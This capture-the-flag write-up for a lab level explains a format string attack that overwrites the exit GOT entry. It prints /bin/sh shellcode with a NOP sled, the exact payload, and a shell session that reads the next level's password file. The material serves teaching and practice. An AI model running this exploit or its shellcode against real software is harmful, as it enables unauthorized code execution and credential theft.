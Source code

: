 

# Overwrite .got.plt table again

On this level we are provided with a program which takes a string as input via the **`gets()`** function, in the case of uppercase alphabetic characters these are transformed into lowercase letters before being printed by **`printf()`**.

```
08048444 <main>:
...
804846e:	8d 44 24 28          	lea    eax,[esp+0x28]
8048472:	89 04 24             	mov    DWORD PTR [esp],eax
8048475:	e8 d6 fe ff ff       	call   8048350 <fgets@plt>
804847a:	c7 84 24 8c 00 00 00 	mov    DWORD PTR [esp+0x8c],0x0
...
80484f3:	f2 ae                	repnz  scas al,BYTE PTR es:[edi]
80484f5:	89 c8                	mov    eax,ecx
80484f7:	f7 d0                	not    eax
80484f9:	83 e8 01             	sub    eax,0x1
80484fc:	39 c3                	cmp    ebx,eax
80484fe:	72 87                	jb     8048487 <main+0x43>
8048500:	8d 44 24 28          	lea    eax,[esp+0x28]
8048504:	89 04 24             	mov    DWORD PTR [esp],eax
8048507:	e8 34 fe ff ff       	call   8048340 <printf@plt>
```

Since no sanitize takes place on our input and it is handled by printf, we can use a **format string attack**.

We notice at the same time that the program will end with an **`exit()`**, the address of the latter is not yet resolved at this stage of the program, so let’s replace the field in the **got.plt** table  :

```
08048444 <main>:
...
8048513:	e8 58 fe ff ff       	call   8048370 <exit@plt>
...
08048370 <exit@plt>:
8048370:	ff 25 e0 97 04 08    	jmp    DWORD PTR ds:0x80497e0
...
0x80497e0 <exit@got.plt>:       0x08048376
```

Let's build our attack.

First we will inject a spawn shell code into an environment variable ( *using a **NOP slide** with shellcode can help to make exploits more reliable, as it provides a "buffer" of NOP instructions that can help to align the program's execution flow with the shellcode. This can help to prevent the exploit from failing due to small variations in the branch target address* ) :



    export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')


**got.plt** table addr: **`0x80497e0`**  

**env** var addr: **`0xffffd7d9`** / **`4294957017`**  
  
We notice that the address of the **env** var is a very large number, we will have to divide the overwrite operation into two parts.

```
1) d7d9 -> 55257 -> pad (55257 - 8) -> 55249
2) ffff -> 65535 -> pad (65535 - 55257) -> 10278

1st part addr: 0x80497e0
2th part addr: 0x80497e2

2th   1th 
[__|__|__|__] -> ??? [ff|ff|d7|d9]
```

```
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55249c%10$hn" + "%10278c%11$hn"' > /tmp/boom
cat /tmp/boom - | ./level05
```

```
whoami
level06
cat /home/users/level06/.pass            
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

> flag: h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
